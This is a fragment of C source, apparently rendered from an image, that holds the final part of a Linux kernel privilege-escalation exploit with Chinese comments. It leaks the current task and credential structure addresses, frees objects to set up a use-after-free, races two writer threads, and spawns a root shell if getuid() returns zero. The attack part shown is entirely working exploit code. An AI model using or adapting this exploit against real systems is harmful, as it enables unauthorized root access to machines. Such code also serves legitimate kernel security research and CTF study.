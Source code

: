 ```c
            cur_cred = task_task[cred_index];
            leak_info("cur_cred", cur_cred);
            break;
        }

        cur_task = task_task[next_index] - 0x298;
        leak_info("cur_task", cur_task);
    }

    /* 由于 pthread_create 测试时存在噪声, 因此在这里就先把两个线程创了 */
    /* 逻辑是, 两个会卡住写的, 分别在一个线程 */
    /* 这两个释放, 以免噪声申请到UAF obj */
    delete (1);
    delete (3);

    pthread_create(&p1, NULL, write_thread1, NULL);
    pthread_create(&p2, NULL, write_thread2, NULL);

    sleep(3);

    pthread_join(p1, NULL);
    pthread_join(p2, NULL);

    info("checking root...");

    if (!getuid())
    {
        get_root_shell();
    }
    else
    {
        error("Not root!");
    }
    return 0;
}
```

